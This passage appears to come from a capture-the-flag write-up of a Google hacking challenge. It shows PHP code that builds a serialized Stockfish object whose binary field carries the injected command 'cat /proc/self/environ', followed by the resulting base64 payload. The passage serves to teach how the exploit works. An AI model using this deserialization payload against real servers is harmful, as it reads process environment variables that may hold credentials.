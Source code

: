 ```php
$stockf = new Stockfish();
$stockf->binary = 'cat /proc/self/environ';
print(base64_encode(serialize($stockf)));
```

Running the server with this new code and browsing to it, I got the string `Tzo5OiJTdG9ja2Zpc2giOjc6e3M6MzoiY3dkIjtzOjI6Ii4vIjtzOjY6ImJpbmFyeSI7czoyMjoiY2F0IC9wcm9jL3NlbGYvZW52aXJvbiI7czoxMzoib3RoZXJfb3B0aW9ucyI7YToxOntzOjEyOiJieXBhc3Nfc2hlbGwiO3M6NDoidHJ1ZSI7fXM6MTQ6ImRlc2NyaXB0b3JzcGVjIjthOjI6e2k6MDthOjI6e2k6MDtzOjQ6InBpcGUiO2k6MTtzOjE6InIiO31pOjE7YToyOntpOjA7czo0OiJwaXBlIjtpOjE7czoxOiJ3Ijt9fXM6MTg6IgBTdG9ja2Zpc2gAcHJvY2VzcyI7aTowO3M6MTY6IgBTdG9ja2Zpc2gAcGlwZXMiO2E6Mjp7aTowO2k6MDtpOjE7aTowO31zOjI0OiIAU3RvY2tmaXNoAHRoaW5raW5nX3RpbWUiO2k6MTA7fQ==`.

<figure>
  <img style="display:block; margin-left: auto; margin-right: auto" src="/assets/images/Hacking-Google/Hacking-Google-Ep01-C03-object.png" title="">
  <figcaption style="text-align: center; font-size:14px; color: gray"><i>How a PHP serialized object looks like</i></figcaption>
</figure>
